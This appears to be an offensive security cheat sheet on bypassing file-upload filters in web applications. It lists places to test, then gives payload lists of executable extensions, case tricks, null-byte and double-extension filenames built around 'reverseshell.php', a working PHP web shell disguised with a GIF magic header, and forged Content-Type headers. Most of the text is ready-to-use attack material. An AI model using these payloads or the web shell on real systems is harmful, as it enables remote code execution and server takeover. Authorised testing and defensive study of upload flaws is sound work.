 
# Common Places to Test for File Uploads

* Profile picture uploads (e.g., avatars)
* Resume or document uploads (e.g., .pdf, .docx)
* Contact/support forms (with file attachments)
* E-commerce product image uploads
* CMS media sections (WordPress, Joomla, etc.)
* File managers or admin panels
* Assignment submission portals
* Blog/article submissions
* Public file sharing tools
* Admin functions (theme/plugin uploads)

  # Upload Bypass

## Rename the extension  

```
• PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

• PHP8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

• ASP: asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

• PERL: .pl, .pm, .cgi, .lib

• JSP: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action

• Coldfusion: .cfm, .cfml, .cfc, .dbm

• Flash: .swf

• Erlang Yaws Web Server: .yaws
```
# Bypass the extension checks

### Using some uppercase, Lowercase letters
```
pHp, .pHP5, .aSPx, .JAvA, .GrOOvY, .Ps1, .PY, .Go, .jSp ...
```
### Add special characters at the end
```
reverseshell.php%20
reverseshell.php%0a
reverseshell.php%00
reverseshell.php%0d%0a
reverseshell.php/
reverseshell.php.\
reverseshell.
reverseshell.php....
```
It also possible with previous bypass Upper, lower case bypasses

```
reverseshell.php5%0a
reverseshell.pHP5%0a
```
### Adding a valid extension before

* As example, if the png are the only authorized extension:
```
reverseshell.png.php
shell.jpeg.asp
shell.cv.php
shell.png.php
```
• It is also possible to use the the uppercase letters

```
reverseshell.png.Php5
reverseshell.png.pHTml
```
### Add a double extension and a junk data between them
* Some examples
```
reverseshell.php#.png
reverseshell.php%00.png
reverseshell.php\x00.png
reverseshell.php%0a.png
reverseshell.php%0d%0a.png
reverseshell.phpJunk123png
```
With lower, Upper cases technique

`
reverseshell.png%00pHp5 
`
### Add another layer of extensions
Some examples

```
file.png.jpg.php
```
Combine with Uppecase Lowercase technique

```
file.php%00.png%00.jpg
file.pHp%00.pNg%00.jPg
```
## Magic Byte Bypass Trick
Some servers check file types based on magic bytes (the first few bytes in a file) instead of the file extension. Attackers can exploit this by inserting a valid header of a safe file type (like GIF) at the beginning of a malicious file.

**Example:**
You create a shell.php file with this content:

```
GIF89a
<?php system($_GET['cmd']); ?>
```

* GIF89a is the magic header for a .gif image.
* Server sees it as an image (if poorly configured).
* But once executed, the PHP code still runs!

## Bypass Using Content-Type Header
Some applications rely on the Content-Type header (like image/png) to validate uploaded files. This can be bypassed easily because headers are controlled by the client, not the server.

### Bypass Techniques:
Manually modify Content-Type using tools like Burp Suite:
```
Content-Type: image/png
```
  ➤ While uploading a file like shell.php, just change the header to look like an image.

#### Use multipart/form-data with fake headers:
```
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg
```
  ➤ But the file is actually PHP code!

